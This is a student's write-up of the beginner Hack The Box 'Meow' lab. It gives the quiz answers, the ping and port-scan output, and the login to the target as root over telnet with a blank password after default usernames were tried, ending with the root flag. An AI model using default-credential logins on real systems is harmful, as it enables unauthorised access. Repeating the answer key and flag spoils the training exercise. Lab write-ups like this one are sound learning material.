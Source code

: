Download vpn from lab

What does the acronym VM stand for? 
*Virtual Machine *

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell. 
*terminal*

What service do we use to form our VPN connection into HTB labs? 
*openvpn*

Let the configuration script run until you see the Initialization Sequence Completed message at the
very end of the output. Once that is present, make sure that there is no mention of multiple tunnel
interfaces, such as tun1 , tun2 , and so forth. Having multiple tunnel interfaces can ruin the stability of your
connection to the target and create routing conflicts on your Operating System, which would only bring
frustration. There should only be tun0 

https://app.hackthebox.com/e680eab9-86c5-4ae6-b7e4-5d3a0ae8b785

What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output? 
*tun*

What tool do we use to test our connection to the target with an ICMP echo request? 
It's also half of the name of a very popular sport, also known as table tennis.
*ping*

What is the name of the most common tool for finding open ports on a target? 
*nmap*

What service do we identify on port 23/tcp during our scans? 
This service runs on port 23/tcp by default, meaning we can research the port on Google and receive the correct result easily.
*telnet*

```
┌──(kali㉿kali)-[~]
└─$ ping 10.129.207.239
PING 10.129.207.239 (10.129.207.239) 56(84) bytes of data.
64 bytes from 10.129.207.239: icmp_seq=1 ttl=63 time=202 ms
64 bytes from 10.129.207.239: icmp_seq=2 ttl=63 time=191 ms
^C
--- 10.129.207.239 ping statistics ---
3 packets transmitted, 2 received, 33.3333% packet loss, time 2007ms
rtt min/avg/max/mdev = 190.969/196.616/202.264/5.647 ms
                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ rustscan -a 10.129.207.239 --ulimit 5500 -b 65535 -- -A
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 5500.
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
Open 10.129.207.239:23
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-01 00:00 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
Initiating Ping Scan at 00:00
Scanning 10.129.207.239 [2 ports]
Completed Ping Scan at 00:00, 0.19s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:00
Completed Parallel DNS resolution of 1 host. at 00:00, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 00:00
Scanning 10.129.207.239 [1 port]
Discovered open port 23/tcp on 10.129.207.239
Completed Connect Scan at 00:00, 0.19s elapsed (1 total ports)
Initiating Service scan at 00:00
Scanning 1 service on 10.129.207.239
Completed Service scan at 00:00, 10.37s elapsed (1 service on 1 host)
NSE: Script scanning 10.129.207.239.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 10.43s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
Nmap scan report for 10.129.207.239
Host is up, received conn-refused (0.19s latency).
Scanned at 2022-11-01 00:00:37 EDT for 22s

PORT   STATE SERVICE REASON  VERSION
23/tcp open  telnet  syn-ack Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.18 seconds

after trying some typical admin accounts (admin, administrator, root)

┌──(kali㉿kali)-[~]
└─$ telnet 10.129.207.239                        
Trying 10.129.207.239...
Connected to 10.129.207.239.
Escape character is '^]'.


  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
Password: 


Login incorrect
Meow login: administrator
Password: 


Login incorrect
Meow login: admin
Password: 
Login timed out after 60 seconds.
Connection closed by foreign host.
                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ telnet 10.129.207.239
Trying 10.129.207.239...
Connected to 10.129.207.239.
Escape character is '^]'.


  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
Password: 


Login incorrect
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 01 Nov 2022 04:03:10 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             138
  Users logged in:       0
  IPv4 address for eth0: 10.129.207.239
  IPv6 address for eth0: dead:beef::250:56ff:fe96:3e07

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19

pwnd
```

What username is able to log into the target over telnet with a blank password? 
*root*

Submit root flag 
*b40abdfe23665f766f9c61ecba8a4c19*


[[Follina MSDT]]
